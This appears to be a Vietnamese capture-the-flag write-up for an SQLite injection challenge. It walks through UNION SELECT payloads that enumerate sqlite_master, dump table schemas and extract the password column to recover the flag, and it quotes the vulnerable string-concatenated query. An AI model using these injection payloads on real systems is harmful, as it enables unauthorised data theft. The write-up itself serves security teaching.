 # UNION - Meet the Union Committee
# TEAM : DUY - ζp33d_0∫\_Ψ1m3
# TYPE : SQLITE INJECTION

Giao diện trang web 
[1][1.png]

Click vào hình bất kỳ, http://34.105.202.19:1336/?id=2
- Thử với id = 2'
[2][2.png]
[3][3.png]


Với dòng error cursor.execute("SELECT id, name, email FROM users WHERE id=" + params["id"])
giúp ta xác định đoạn sql này lấy ra dữ liệu từ columns id,name,email từ table users qua id


- Thử với id=2 or true
[4][4.png]
OK, dữ liệu lấy ra ở cột name sẽ được fetch ra hết trong khi cột id,email không xuất hiện

Lợi dụng điều này ta có thể fetch dữ liệu trong table qua cột select thứ 2
```id = 2 union select null,email,null from users```
[5][5.png]

Tuy nhiên không có dữ liệu chúng ta cần tìm vì vậy cần select ra những tên cột có trong bảng


```2 union SELECT null,group_concat(name),null FROM sqlite_master WHERE type = "table"```

sqlite_master là "schema table" chứa schema của SQLite database, thông thường sẽ có cấu trúc thế này

```
CREATE TABLE sqlite_schema(
  type text,
  name text,
  tbl_name text,
  rootpage integer,
  sql text
);
```

Với câu query trên chúng ta dump ra được trường name của tất cả table có trong database 
[6][6.png]

OK, vậy ta có được 3 table là users,sqlite_sequence,comments

Để xem cấu trúc của 3 table này ta query như sau (đổi trường name thành trường sql):

```2 union SELECT null,group_concat(sql),null FROM sqlite_master WHERE type = "table"```

[7][7.png]

Sau khi biết được các cột trong từng table mình thấy nghi ngờ về trường password nên dump ra xem thử :v

```id = 2 union select null,password,null from users```

[8][8.png]

Ta-da, flag : union{uni0n_4ll_s3l3ct_n0t_4_n00b}

